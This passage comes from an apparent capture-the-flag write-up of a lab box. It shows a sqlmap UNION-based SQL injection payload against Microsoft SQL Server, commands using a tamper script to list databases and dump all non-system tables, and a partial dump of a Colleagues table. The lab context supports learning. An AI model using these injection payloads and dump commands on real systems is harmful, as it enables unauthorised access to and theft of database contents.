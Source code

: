         Type: UNION query
        Title: Generic UNION query (NULL) - 5 columns
        Payload: {"name":"test' UNION ALL SELECT 58,58,58,CHAR(113)+CHAR(112)+CHAR(122)+CHAR(107)+CHAR(113)+CHAR(68)+CHAR(105)+CHAR(69)+CHAR(119)+CHAR(71)+CHAR(98)+CHAR(76)+CHAR(83)+CHAR(102)+CHAR(68)+CHAR(114)+CHAR(73)+CHAR(109)+CHAR(73)+CH
    AR(98)+CHAR(101)+CHAR(116)+CHAR(99)+CHAR(70)+CHAR(80)+CHAR(103)+CHAR(101)+CHAR(86)+CHAR(113)+CHAR(73)+CHAR(82)+CHAR(103)+CHAR(90)+CHAR(115)+CHAR(114)+CHAR(76)+CHAR(73)+CHAR(77)+CHAR(105)+CHAR(103)+CHAR(73)+CHAR(71)+CHAR(67)+CHAR(83)+CHAR
    (111)+CHAR(113)+CHAR(98)+CHAR(120)+CHAR(98)+CHAR(113),58-- gxQm"}
    ---
    [18:31:01] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
    [18:31:02] [INFO] testing Microsoft SQL Server
    [18:31:07] [INFO] confirming Microsoft SQL Server
    [18:31:22] [INFO] the back-end DBMS is Microsoft SQL Server
    back-end DBMS: Microsoft SQL Server 2017                   
    [18:31:22] [INFO] fetched data logged to text files under '/root/.sqlmap/output/10.10.10.179' 



With that success, now I can run with `--dbs` to list the databases.
There are five:



    root@kali# sqlmap -r colleagues.request --tamper=charunicodeescape --delay 5 --level 5 --risk 3 --batch --proxy http://127.0.0.1:8080 --dbs
    ...[snip]...
    [21:19:29] [INFO] fetching database names
    available databases [5]:
    [*] Hub_DB
    [*] master
    [*] model
    [*] msdb
    [*] tempdb



I could next list the tables, but I actually went the more "nuke it from
space" route, and ran `--dump-all` and `--exclude-sysdbs`:



    root@kali# sqlmap -r colleagues.request --tamper=charunicodeescape --delay 5 --level 5 --risk 3 --batch --proxy http://127.0.0.1:8080 --dump-all --exclude-sysdbs
    ...[snip]...
    [18:51:58] [INFO] the back-end DBMS is Microsoft SQL Server
    back-end DBMS: Microsoft SQL Server 2017                   
    [18:51:58] [INFO] sqlmap will dump entries of all tables from all databases now
    [18:51:58] [INFO] fetching database names                  
    [18:52:08] [INFO] fetching tables for databases: Hub_DB, master, model, msdb, tempdb
    [18:52:08] [INFO] skipping system database 'master'
    [18:52:08] [INFO] skipping system database 'model'
    [18:52:08] [INFO] skipping system database 'msdb'
    [18:52:08] [INFO] skipping system database 'tempdb'
    [18:52:08] [INFO] fetching columns for table 'Colleagues' in database 'Hub_DB'
    [18:52:18] [INFO] fetching entries for table 'Colleagues' in database 'Hub_DB'
    Database: Hub_DB                                           
    Table: Colleagues                                          
    [17 entries]                                               
    +------+----------------------+-------------+----------------------+----------------------+
    | id   | email                | image       | name                 | position             |
    +------+----------------------+-------------+----------------------+----------------------+
    | 1    | sbauer@megacorp.htb  | sbauer.jpg  | Sarina Bauer         | Junior Developer     |
    | 2    | okent@megacorp.htb   | okent.jpg   | Octavia Kent         | Senior Consultant    |
    | 3    | ckane@megacorp.htb   | ckane.jpg   | Christian Kane       | Assistant Manager    |